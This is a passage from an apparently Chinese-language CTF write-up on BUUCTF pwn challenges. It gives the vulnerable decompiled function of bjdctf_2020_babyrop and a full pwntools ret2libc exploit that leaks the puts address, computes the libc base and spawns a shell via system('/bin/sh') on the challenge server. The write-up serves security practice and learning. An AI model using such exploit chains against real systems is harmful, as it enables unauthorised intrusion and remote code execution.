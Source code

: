 ```python
from pwn import *
io = remote('node3.buuoj.cn',27311)
io.interactive()
```

## 0x15.bjdctf_2020_babyrop

一上来是两个puts，然后：

```c
ssize_t vuln()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF
  puts("Pull up your sword and tell me u story!");
  return read(0, buf, 0x64uLL);
}
```

足够长，可以覆盖。

没有用LibcSearcher，一直说找不到，，，下了buu的libc好了。

```python
from pwn import *
context(log_level='DEBUG')
io = remote('node3.buuoj.cn',27222)
#io = process("./bjdctf_2020_babyrop")
elf = ELF('./bjdctf_2020_babyrop')
libc = ELF('libc-x64-2.23.so')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = elf.sym['main']
pop_rdi_ret = 0x0000400733 

payload = 'a'*(0x20+0x8)+p64(pop_rdi_ret)+p64(puts_got)+p64(puts_plt)+p64(main)
io.recv()
io.sendline(payload)


puts_add = u64(io.recv(6).ljust(8, '\x00'))

base = puts_add - libc.sym['puts']
sys_add = base + libc.sym['system']
bin_sh = base + next(libc.search('/bin/sh'))

payload = 'a'*(0x20+0x8)+p64(pop_rdi_ret) +p64(bin_sh)+p64(sys_add)
io.send(payload)
io.recv()
io.interactive()
```

## 0x16.babyheap_0ctf_2017
